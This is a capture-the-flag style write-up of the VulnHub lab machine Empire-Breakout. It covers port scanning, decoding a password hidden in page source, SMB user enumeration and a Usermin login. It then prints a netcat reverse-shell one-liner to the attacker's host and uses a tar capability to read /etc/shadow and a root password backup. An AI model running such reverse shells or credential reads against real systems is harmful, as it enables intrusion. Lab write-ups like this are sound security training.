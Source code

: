 ```yaml
---
layout: post
title: Empire-Breakout
categories: VulnHub Machines
permalink: /vulnhub/empire-breakout
---
```



Machine: [https://www.vulnhub.com/entry/empire-breakout,751/](https://www.vulnhub.com/entry/empire-breakout,751/)
Machine Author: [icex64 & Empire Cybersecurity](https://www.vulnhub.com/author/icex64-empire-cybersecurity,821/)

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 02:53 UTC
Nmap scan report for 192.168.56.135
Host is up (0.00092s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:A2:1E:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-time: 
|   date: 2025-01-09T02:53:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.56.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.84 seconds
```

## Port 80

![image1](https://github.com/user-attachments/assets/bd17d2ef-e799-4ea5-a5de-bad5e810d366)


We are greeted with the apache2 default page. Nothing too special on the page. Let’s look at the source code to see if we find anything.

### Source Code

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

We can find the above comment hidden within the source code of the page. The weird looking string is encoded using the Brainf**k cipher. Decoding it we get the below string

```bash
.2uqPEfj3D<P'a-3
```

It seems this could be a password to an account. Let’s visit the other ports where we saw MiniServ running.

## Port 10000

![2](https://github.com/user-attachments/assets/033a6325-8e57-4b01-abd9-3563a2ccbd6f)


We are greeted with a login page. We can try to login with the password we obtained earlier. Using admin as the user with the password doesn’t work. This means that we need to look for a valid username.

If we look back at the nmap scan we can see that smb is running. We can use enum4linux to find valid users

## enum4linux

```bash
enum4linux -r 192.168.56.135
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  9 03:10:36 2025

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                            
Target ........... 192.168.56.135                                                                                                                                                                                                           
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

<SNIP>                                                                                                                                                                        

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                            
S-1-22-1-1000 Unix User\cyber (Local User)                                                                                                                                                                                                  

<SNIP>

enum4linux complete on Thu Jan  9 03:10:49 2025
```

We can see that there is a local user with the username cyber. Let’s try using that as our username on the Webmin login page.

![3](https://github.com/user-attachments/assets/8275438b-88ba-4f0b-80f9-0b35da20197d)


Well, that didn’t work. There is another service Usermin running on port 20000. We can check to see if the credentials work there.

![4](https://github.com/user-attachments/assets/95f7ce8d-5992-4189-9365-8eb3cf20fe7d)


And there we go, we are now logged in onto Usermin. We can now use the inbuilt terminal to run commands on the server.

![5](https://github.com/user-attachments/assets/2fac5282-770c-41d3-9c56-b40366344a92)


Let us get a more interactive shell by using netcat.

```bash
[cyber@breakout ~]$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4242 >/tmp/f
```

![6](https://github.com/user-attachments/assets/5c5c8360-deb2-49c3-bc68-6a87da642b3b)


After getting a more interactive shell using python, we get the user.txt file.

Now time to escalate the privileges.

## Priv Esc

We can see that there is a binary for the tar program there. Which is likely our way to root.

![7](https://github.com/user-attachments/assets/4e44aa5b-bc81-44ce-a927-d46c094eb2d1)


My first thought was that maybe we have sudo as root on the tar binary. But sudo was disabled so we can’t do that.

We can use getcap to see what capabilities the binary has.

![9](https://github.com/user-attachments/assets/bc0bd0f1-c59b-435a-ab26-c15683ef1bfc)


The cap_dac_read_search capability allows us to bypass file read permissions.

We can try and see if we can read the /etc/shadow file.

![10](https://github.com/user-attachments/assets/fcd09e0a-03dd-4426-b0d3-97473c9f9a39)


And sure enough we can.

We can try and crack the hashes offline, but considering the password for cyber was complex, we should check to see if we have any other way.

Since we can read any file as root, we can look for interesting files owned by root in any of the usual places such as /var/backup or /opt.

![11](https://github.com/user-attachments/assets/fc7ac7d8-21e2-4950-8e56-79c736f14f7e)


Looking at /var/backup we can see a .old_pass.bak file which is readable only by root.

Let’s use out tar binary to read this file.

![12](https://github.com/user-attachments/assets/7775db6b-c588-418b-825a-0807ce461d86)


We seem to get a complex looking password.

Let’s try to su to root using this pass.

![13](https://github.com/user-attachments/assets/46e2d85e-986e-4b22-b607-195993c8424f)


And there we go, we finally have root

![14](https://github.com/user-attachments/assets/b4681ba9-e7c7-481b-b147-3fb6bb338079)
